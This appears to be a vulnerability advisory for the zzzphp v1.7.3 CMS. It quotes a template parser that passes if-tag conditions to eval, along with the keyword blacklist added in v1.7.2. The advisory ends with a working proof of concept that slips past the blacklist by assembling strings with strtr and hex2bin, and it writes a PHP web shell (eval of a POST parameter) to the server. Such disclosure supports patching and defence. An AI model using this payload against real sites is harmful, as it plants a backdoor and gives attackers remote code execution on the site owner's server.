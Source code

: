 # General
    Vulnerability Name: zzzphp v1.7.3 code execution (latest version)
    Product Homepage: http://www.zzzcms.com
    Software Link: http://115.29.55.18/zzzphp.zip
    Version: v1.7.3

# Vulnerability Overview
Affected code is located at `inc/zzz_template.php:2335`, function `parserIfLabel`.
```php
	function parserIfLabel( $zcontent ) {
		$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
		if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
			$count = count( $matches[ 0 ] );
			for ( $i = 0; $i < $count; $i++ ) {
				$flag = '';
				$out_html = '';
				$ifstr = $matches[ 1 ][ $i ];
				$ifstr=danger_key($ifstr);
				$ifstr = str_replace( '=', '==', $ifstr );	
				$ifstr = str_replace( '<>', '!=', $ifstr );
				$ifstr = str_replace( 'or', '||', $ifstr );
				$ifstr = str_replace( 'and', '&&', $ifstr );
				$ifstr = str_replace( 'mod', '%', $ifstr );						
				@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
				if ( preg_match( '/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[ 2 ][ $i ], $matches2 ) ) { // 判断是否存在else				
					switch ( $flag ) {
						case 'if': // 条件为真
							if ( isset( $matches2[ 1 ] ) ) {
								$out_html .= $matches2[ 1 ];
							}
							break;
						case 'else': // 条件为假
							if ( isset( $matches2[ 2 ] ) ) {
								$out_html .= $matches2[ 2 ];
							}
							break;
					}
				} elseif ( $flag == 'if' ) {
					$out_html .= $matches[ 2 ][ $i ];
				}
				// 无限极嵌套解析
				$pattern2 = '/\{if([0-9]):/';
				if ( preg_match( $pattern2, $out_html, $matches3 ) ) {
					$out_html = str_replace( '{if' . $matches3[ 1 ], '{if', $out_html );
					$out_html = str_replace( '{else' . $matches3[ 1 ] . '}', '{else}', $out_html );
					$out_html = str_replace( '{end if' . $matches3[ 1 ] . '}', '{end if}', $out_html );
					$out_html = $this->parserIfLabel( $out_html );
				}
				// 执行替换
				$zcontent = str_replace( $matches[ 0 ][ $i ], $out_html, $zcontent );
			}
		}
		return $zcontent;
	}
```
This function is mainly to parse the if statement in the template file. Besides execute blacklist substitution for `$ifstr`, which is added in v1.7.2. The replacement function is as follows:

```php
function danger_key($s) {
	$danger=array('php','preg','server','chr','decode','html','md5','post','get','file','dir','cookie','session','sql','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','_','?');
	$s = str_ireplace($danger,"*",$s);
	$key=array('php','preg','decode','post','get','cookie','session','$','exec','eval','replace');
   foreach ($key as $val){
	   if(strpos($s,$val) !==false){
		error('很抱歉，您模板中包含危险字符,【'.$val.'】,Sorry your template contains dangerous characters');
		}
   }
	return $s;
}
```

## POC: (Bypass the patch from v1.7.2)

```php
{if:1=1);file_put_contents(strtr("1.p*p", "*", "h"),strtr('<?*h* ', "*", "p").strtr('ev*l(', "*", "a").hex2bin('24').strtr('_P*ST[1]);', "*", "O"));//} {end if}```
